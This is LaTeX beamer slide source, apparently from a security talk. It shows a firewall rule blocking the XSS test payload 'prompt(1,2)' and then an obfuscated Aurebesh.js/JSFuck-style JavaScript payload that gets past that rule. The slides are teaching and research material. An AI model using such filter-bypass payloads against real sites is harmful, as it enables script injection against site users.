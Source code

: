 \documentclass[aspectratio=169]{beamer}
\newcommand{\supertext}[1]{\fontsize{30}{40}\selectfont #1}
\begin{document}
\begin{frame}[fragile]{Aurebesh.js - prompt(1,2) blocked}
	\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt(1,2)</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - prompt(1,2) bypass}
	\begin{lstlisting}[style=basicStyle, language=Python]
A='',B=!A+A,C=!B+A,D=A+{},E=B[A++],F=B[G=A],H=++G+A,I=D[G+H],B[I+=D[A]+(B.C+D)[A]+C[H]+E+F+B[G]+I+E+D[A]+F][I]('p'+F+D[A]+'m'+'p'+E+'(A,++A)')()
\end{lstlisting}
\end{frame}

\section*{Aurebesh demo}
\begin{frame}
	\centering
	\vfill
	\supertext{Aurebesh.js demo}
	\vfill
\end{frame}

\section{Aspect ratio}
\begin{frame}[fragile]{Aspect ratio}
	This pdf uses a 16:9 aspect ratio. To utilize
	this version, simply use:
	\begin{verbatim}
    \documentclass[aspectratio=169]{beamer}
    \end{verbatim}
	\vfill
	The default is a 4:3 aspect ratio.
	\begin{verbatim}
    \documentclass{beamer}
  \end{verbatim}
\end{frame}
\end{document}

